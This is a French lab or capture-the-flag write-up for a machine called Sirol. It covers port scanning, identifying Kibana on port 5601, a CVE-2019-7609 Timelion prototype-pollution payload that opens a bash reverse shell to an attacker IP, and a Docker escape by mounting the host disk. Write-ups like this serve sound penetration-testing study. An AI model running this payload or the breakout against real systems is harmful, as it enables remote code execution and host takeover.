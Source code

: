   # Sirol

	sudo masscan -p1-65535,U:1-65535 192.168.164.54 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.164.54 -oN nmap.txt
	feroxbuster --silent -u http://192.168.164.54
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)  
    53/tcp closed domain  
    80/tcp open http Apache httpd 2.4.25 ((Debian))  
    3306/tcp open mysql MariaDB (unauthorized)  
    5601/tcp open esmagent?
	
Il y a une calculatrice minimaliste sur le site du port 80. J'ai directement pensé à une SSTI, ou à une injection plus généralement, sans succès.

En revanche j'ai trouvé des informations sur le port 5601 : 

	nc 192.168.164.54 5601  
	help  
> 	HTTP/1.1 400 Bad Request

	nc 192.168.164.54 5601  
	GET / 
>	HTTP/1.1 302 Found   	
	location: /app/kibana   	
	kbn-name: kibana 
	kbn-xpack-sig: 79b8a7336823018e37a1e121a9f3bb67  
	cache-control: no-cache
	content-length: 0
	connection: close  
	Date: Wed, 05 Jul 2023 09:11:42 GMT

Et sur mon navigateur le port 5601 redirige vers http://192.168.164.54:5601/app/kibana#/home?_g=()

Exploit trouvé pour cette version : https://github.com/mpgn/CVE-2019-7609

Vulnérabilité de type Prototype Pollution. Payload à injecter dans Timelion : 

	.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/192.168.45.214/443 0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

On arrive directement en tant que root mais dans un container Docker. Il y a un fichier ".dockerenv" à la racine.

	...
	rlwrap nc -nvlp 443
	
Exemple de fiche à suivre pour s'échapper d'un container : https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

La technique du mount fonctionne : 

	fdisk -l 
	mkdir /mnt/privesc
	mount /dev/sda1 /mnt/privesc
	cd /mnt/privesc
	cat /root/proof.txt
